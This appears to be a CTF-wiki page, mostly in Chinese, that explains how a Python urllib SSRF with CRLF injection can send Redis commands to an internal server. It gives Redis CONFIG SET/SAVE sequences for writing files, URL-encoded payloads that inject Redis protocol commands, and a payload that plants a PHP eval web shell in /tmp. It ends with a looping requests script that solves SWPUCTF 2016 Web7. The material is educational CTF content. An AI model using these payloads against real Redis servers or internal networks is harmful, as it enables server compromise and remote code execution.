 # Redis 
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



http://redisdoc.com/string/set.html 

上面的链接时redis的指令参考集，实际使用的同时并不会全部用上，只会使用到部分。

## python urllib SSRF

### 如何攻击Redis

两种方案，具体看参考链接。原理都是一样的，写文件到目标目录。

```
CONFIG SET dir /tmp
CONFIG SET dbfilename evil  //这一步可以将db设置为/tmp/evil,可以控制文件里面的部分数据了。
SET foo bar
SAVE
```

上述Redis命令可以使`key-value`数据保存在`/tmp/evil`文件中，也就是我们可以控制里面的部分内容： [![img](https://i.imgur.com/rq0THqE.png)](https://i.imgur.com/rq0THqE.png)

### 0x02 Python urllib HTTP头注入(crlf+ssrf)

简单使用一下代码测试访问url：

```
import urllib
import sys

urllib.urlopen(sys.argv[1])
```

这里是个SSRF漏洞，当输入一下payload，还能注入我们想要的http头数据： 输入：

```
python urlopen.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

监听本机12345端口，得到发包数据：

```
GET /foo HTTP/1.0
Host: 127.0.0.1
X-injected: header  //头数据注入
x-leftover: :12345
User-Agent: Python-urllib/1.17
```

不仅如此，还可以改变请求构造为POST数据。具体参考链接1。和Gopher协议有同样的妙用。

### 0x03 结合攻击Redis

发送payload到内网Redis端口：

```
http://192.168.0.7%0d%0aSET%20A%20EVIL%0d%0a:6379/foo
```

可以在Redis中添加`A:EVIL`的键值对,即：执行了`SET A EVIL`命令。数据包为：

```

GET /foo HTTP/1.0
Host: 192.168.0.7
SET A EVIL
:12345
User-Agent: Python-urllib/1.17
```

[![img](Redis.assets/1NiCcyb.png)](https://i.imgur.com/1NiCcyb.png)

### 0x04 实际shell攻击

#### 1. 写入空格限制

Redis协议突破空格限制：

```
*3
$3
SET
$1
A
$9
test you
```

url编码得到payload：

```
http://192.168.0.7%0D%0A%2a3%0D%0A%243%0D%0ASET%0D%0A%241%0D%0AA%0D%0A%248%0D%0Atest%20you%0D%0A:6379/foo
```

测试结果如下，成功执行命令：

```
127.0.0.1:6379> get A
"EVIL"
127.0.0.1:6379> get A
"test you"
```

#### 2. 综合利用写文件

测试payload直接写文件： redis原命令：

```
SET foo \n<?php @eval($_POST[c][/c]);?>\n
CONFIG SET dir /tmp
CONFIG SET dbfilename webshell
SAVE
```

即：

```

*3
$3
SET
$5
shell
$27
\n<?php @eval($_POST[c][/c]);?>\n
CONFIG SET dir /tmp
CONFIG SET dbfilename webshell123
SAVE
```

按照上述编码规则可得payload：

```
python urlopen.py http://192.168.0.7%0D%0A%2a3%0D%0A%243%0D%0ASET%0D%0A%245%0D%0Ashell%0D%0A%2427%0D%0A%0A%3C%3Fphp%20%40eval%28%24_POST%5Bc%5D%29%3B%3F%3E%0A%0D%0ACONFIG%20SET%20dir%20%2ftmp%0D%0ACONFIG%20SET%20dbfilename%20webshell123%0D%0ASAVE%0D%0A:6379/foo
```

成功写入shell到/tmp/webshell123文件中，文件内容如下： [![img](Redis.assets/csPfIyx.png)](https://i.imgur.com/csPfIyx.png) 定时任务反弹shell和添加ssh-key方法，详见链接2。

### 样例：[SWPUCTF 2016]Web7

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0a:6379/foo
数据库保存位置修改
```



```
import requests

url = "http://6fe99eb6-b7ba-4e34-b5b4-6ce622aca224.node4.buuoj.cn/input"
data = {"url":"http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0a:6379/foo",
        "submit":"submit"}
data1 = {

}
while (1) :
    r = requests.post(url=url, data=data)
    print (r.text)
密码修改
```